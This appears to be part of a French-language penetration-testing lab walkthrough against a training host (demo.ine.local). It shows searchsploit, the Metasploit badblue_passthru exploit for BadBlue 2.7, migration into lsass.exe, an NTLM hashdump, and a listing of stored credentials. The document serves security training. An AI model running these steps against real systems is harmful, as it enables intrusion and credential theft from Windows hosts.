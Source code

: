 
## 2. Recherche d'exploits

### Recherche avec Searchsploit
```bash
searchsploit badblue 2.7
```

---

## 3. Exploitation avec Metasploit

### Démarrage des services
```bash
# Démarrer PostgreSQL
/etc/init.d/postgresql start

# Lancer Metasploit
msfconsole -q
```

### Configuration de l'exploit
```bash
use exploit/windows/http/badblue_passthru
set RHOSTS demo.ine.local
exploit
```

---

## 4. Post-exploitation

### Migration de processus
```bash
# Migrer vers lsass.exe pour accès aux hashes
migrate -N lsass.exe
```

### Extraction des hashes NTLM
```bash
# Dump des hashes
hashdump
```

---

## 5. Gestion des credentials

### Vérification du stockage en base
```bash
# Retour au framework MSF
background

# Affichage des credentials stockés
creds
```

---